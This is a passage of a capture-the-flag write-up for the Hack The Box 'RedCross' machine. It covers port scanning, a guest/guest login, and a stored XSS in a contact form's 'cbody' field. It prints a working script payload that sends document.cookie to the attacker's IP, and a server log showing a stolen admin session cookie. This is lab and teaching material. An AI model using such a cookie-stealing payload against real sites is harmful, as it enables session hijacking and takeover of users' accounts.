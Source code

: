 ```
root@ragingunicorn:~# nmap -F 10.10.10.113
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-10 14:19 EST
Nmap scan report for 10.10.10.113
Host is up (0.019s latency).
Not shown: 97 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Intra webpage

[http://redcross.htb](http://redcross.htb) redirects to [https://intra.redcross.htb/?page=login](https://intra.redcross.htb/?page=login) so we need to add that to our local hostfile.

The main page contains a simple login form:

![](/assets/images/htb-writeup-redcross/redcross_login.png)

At first glance, the login form doesn't appear to be vulnerable to SQL injections but after trying a few user/password combinations, we are able to log in with the `guest/guest` credentials and we see the following message:

![](/assets/images/htb-writeup-redcross/redcross_guest.png)

So we know there's at least two users: `admin` and `guest`.

Because this is a messaging application, we can assume that admin will be checking messages periodically so we will try to get the admin session cookie with an XSS. Back on the main page, there is a contact form we can use to send messages to the administrator.

![](/assets/images/htb-writeup-redcross/redcross_contact.png)

The first two fields `subject` and `body` don't appear to be vulnerable to XSS because the input is filtered. We get the following error message when we try to inject stuff like `<script>....`: `Oops! Someone is trying to do something nasty...`

But the last field, `cbody` is not filtered and accepts any characters we send.

To test the XSS, we'll try a very simple payload that'll create an image on the page pointing to our attacker machine. The request will contain the `document.cookie` which hopefully contains the session cookie.

Payload: `<script>var myimg = new Image(); myimg.src = 'http://10.10.14.23/q?=' + document.cookie;</script>`

After a minute or so, we can see an incoming HTTP request made to our webserver, containg the admin session cookie:

```
root@ragingunicorn:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.113 - - [11/Nov/2018 12:00:47] code 404, message File not found
10.10.10.113 - - [11/Nov/2018 12:00:47] "GET /q?=PHPSESSID=8e2u3570ceoa9vk2vofvgnibv3;%20LANG=EN_US;%20SINCE=1541955270;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```
